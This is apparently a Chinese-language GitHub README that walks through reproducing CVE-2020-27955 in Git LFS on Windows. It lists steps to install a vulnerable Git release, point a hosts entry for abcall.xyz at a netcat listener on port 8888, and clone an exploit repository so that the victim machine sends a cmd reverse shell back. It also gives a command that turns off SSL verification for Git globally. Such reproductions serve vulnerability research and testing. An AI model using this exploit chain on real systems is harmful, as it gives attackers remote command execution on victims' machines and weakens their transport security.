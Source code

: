 # CVE-2020-27955漏洞复现

1、win机下载有漏洞的版本Git-LFS

下载地址：https://github.com/git-for-windows/git/releases/tag/v2.29.2.windows.1

2、win机安装，添加如下信息host文件,10.1.1.5即是nc监听8888的主机（可自行替换）

10.1.1.5  abcall.xyz

3、10.1.1.5主机，nc启监听口8888

┌──(root㉿hostname)-[~]

└─# nc

Cmd line: -l -p 8888

4、win机cmd命令行输入

git clone https://github.com/z50913/CVE-2020-27955.git

5、10.1.1.5获得win机cmd的shell

#其他
如报ssl证书问题可先输入以下命令，屏蔽ssl验证，再重新clone

git config --global http.sslverify false
